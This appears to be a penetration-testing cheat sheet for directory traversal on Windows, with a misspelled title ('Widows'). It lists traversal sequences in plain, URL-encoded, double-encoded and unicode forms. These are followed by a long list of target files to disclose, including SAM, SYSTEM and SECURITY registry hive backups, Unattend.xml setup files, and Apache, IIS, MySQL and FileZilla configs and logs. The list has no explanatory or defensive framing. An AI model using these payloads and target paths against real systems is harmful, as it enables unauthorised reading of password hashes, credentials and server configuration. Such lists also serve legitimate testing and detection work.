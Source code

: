 <h2> Widows - Interesting files to check during Directory Traversal</h2>

../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
..././
....\
File Disclosure Cheat Sheet

C:/Users/Administrator/NTUser.dat
C:/Documents and Settings/Administrator/NTUser.dat
C:/apache/logs/access.log
C:/apache/logs/error.log
C:/apache/php/php.ini
C:/boot.ini
C:/inetpub/wwwroot/global.asa
C:/MySQL/data/hostname.err
C:/MySQL/data/mysql.err
C:/MySQL/data/mysql.log
C:/MySQL/my.cnf
C:/MySQL/my.ini
C:/php4/php.ini
C:/php5/php.ini
C:/php/php.ini
C:/Program Files/Apache Group/Apache2/conf/httpd.conf
C:/Program Files/Apache Group/Apache/conf/httpd.conf
C:/Program Files/Apache Group/Apache/logs/access.log
C:/Program Files/Apache Group/Apache/logs/error.log
C:/Program Files/FileZilla Server/FileZilla Server.xml
C:/Program Files/MySQL/data/hostname.err
C:/Program Files/MySQL/data/mysql-bin.log
C:/Program Files/MySQL/data/mysql.err
C:/Program Files/MySQL/data/mysql.log
C:/Program Files/MySQL/my.ini
C:/Program Files/MySQL/my.cnf
C:/Program Files/MySQL/MySQL Server 5.0/data/hostname.err
C:/Program Files/MySQL/MySQL Server 5.0/data/mysql-bin.log 
C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.err 
C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.log 
C:/Program Files/MySQL/MySQL Server 5.0/my.cnf
C:/Program Files/MySQL/MySQL Server 5.0/my.ini
C:/Program Files (x86)/Apache Group/Apache2/conf/httpd.conf 
C:/Program Files (x86)/Apache Group/Apache/conf/httpd.conf 
C:/Program Files (x86)/Apache Group/Apache/conf/access.log 
C:/Program Files (x86)/Apache Group/Apache/conf/error.log 
C:/Program Files (x86)/FileZilla Server/FileZilla Server.xml 
C:/Program Files (x86)/xampp/apache/conf/httpd.conf 
C:/WINDOWS/php.ini C:/WINDOWS/Repair/SAM 
C:/Windows/repair/system C:/Windows/repair/software 
C:/Windows/repair/security 
C:/WINDOWS/System32/drivers/etc/hosts
C:/Windows/win.ini 
C:/WINNT/php.ini
C:/WINNT/win.ini
C:/xampp/apache/bin/php.ini
C:/xampp/apache/logs/access.log 
C:/xampp/apache/logs/error.log 
C:/Windows/Panther/Unattend/Unattended.xml 
C:/Windows/Panther/Unattended.xml 
C:/Windows/debug/NetSetup.log 
C:/Windows/system32/config/AppEvent.Evt 
C:/Windows/system32/config/SecEvent.Evt 
C:/Windows/system32/config/default.sav 
C:/Windows/system32/config/security.sav 
C:/Windows/system32/config/software.sav 
C:/Windows/system32/config/system.sav 
C:/Windows/system32/config/regback/default 
C:/Windows/system32/config/regback/sam 
C:/Windows/system32/config/regback/security 
C:/Windows/system32/config/regback/system 
C:/Windows/system32/config/regback/software
C:/Program Files/MySQL/MySQL Server 5.1/my.ini 
C:/Windows/System32/inetsrv/config/schema/ASPNET_schema.xml 
C:/Windows/System32/inetsrv/config/applicationHost.config 
C:/inetpub/logs/LogFiles/W3SVC1/u_ex[YYMMDD].log
